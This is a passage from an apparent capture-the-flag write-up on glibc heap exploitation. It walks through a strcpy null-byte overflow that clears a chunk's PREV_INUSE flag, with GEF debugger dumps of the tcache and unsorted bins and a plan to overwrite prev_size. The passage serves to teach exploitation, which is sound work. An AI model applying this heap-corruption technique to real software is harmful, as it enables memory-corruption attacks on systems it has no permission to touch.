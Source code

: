 Now, doing allocation and the deletion of the chunks accordingly, since the `strcpy` will append the `\0` to the adjancent chunk and the continual deletion and the allocation of the chunks as the size is same as of `0x70`, for every allocation it'll just return the chunk from the `bin[5]`, this will result in the `PREV_INUSE` flag of the adjacent chunk being overwritten.

```asm
gef➤  heap bins
──────────────────────────────────────────────────── Tcachebins for arena 0x7ffff7dcdc40 ────────────────────────────────────────────────────
Tcachebins[idx=5, size=0x70] count=1  ←  Chunk(addr=0x555555757770, size=0x70, flags=) 
───────────────────────────────────────────────────── Fastbins for arena 0x7ffff7dcdc40 ─────────────────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
──────────────────────────────────────────────────── Unsorted Bin for arena 'main_arena' ────────────────────────────────────────────────────
[+] unsorted_bins[0]: fw=0x555555757250, bk=0x555555757250
 →   Chunk(addr=0x555555757260, size=0x510, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
───────────────────────────────────────────────────── Small Bins for arena 'main_arena' ─────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
───────────────────────────────────────────────────── Large Bins for arena 'main_arena' ─────────────────────────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
gef➤  x/10xg  0x0000555555554000 + 0x202060
0x555555756060:	0x0000000000000000	0x0000000000000000
0x555555756070:	0x00005555557577e0	0x0000555555757de0
gef➤  x/2xg 0x00005555557577e0 - 0x10
0x5555557577d0:	0x0000000000000000	0x0000000000000600
gef➤  heap chunk 0x00005555557577e0
Chunk(addr=0x5555557577e0, size=0x600, flags=)
Chunk size: 1536 (0x600)
Usable size: 1528 (0x5f8)
Previous chunk size: 0 (0x0)
PREV_INUSE flag: Off
IS_MMAPPED flag: Off
NON_MAIN_ARENA flag: Off

gef➤  
```

Now, as you can see the `heap_list` is at the address `0x555555756060` which have the chunk `0x00005555557577e0` at the index 2, seeing the `PREV_INUSE` flag for that chunk we see that it is cleared. Now, to work on with this, we will overwrite the `prev_size` for the `chunk_2`, what we will do is allocate a chunk of size `0x68` such that it'll be returned by the `tcache` and we will overwrite the adjacent chunk's i.e. `chunk_2`'s `prev_size`.
